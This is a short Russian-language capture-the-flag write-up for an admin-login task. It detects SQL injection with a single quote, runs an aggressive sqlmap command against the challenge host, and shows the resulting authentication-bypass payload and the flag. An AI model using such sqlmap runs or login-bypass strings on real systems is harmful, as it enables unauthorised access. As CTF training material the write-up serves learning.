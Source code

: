 # А ты админ?
Видим обычную форму ввода в админ панель, проверим на уязвимость к sql инъекциям отправив ковычку.  
Получаем ошибку, а значит сервис уязвим  
![strings](https://github.com/Lip4ik/arctf/blob/main/osint/%D0%9F%D0%BE%D1%87%D1%82%D0%B8%20%D0%BD%D0%B0%D1%88%D0%B5%D0%BB/solver/vk.png)  

Натравим на него sqlmap  
`sqlmap -u "http://bnw.saintvegas.cc:1338" --data="user=admin&password=*" --risk=3 --level=3` 
Получаем строку, которую нужно отправить, чтобы получить доступ  
`-9028' OR 2644=2644-- pWKv`  
Наш флаг arctf{too_easy_sql_inj}   
 

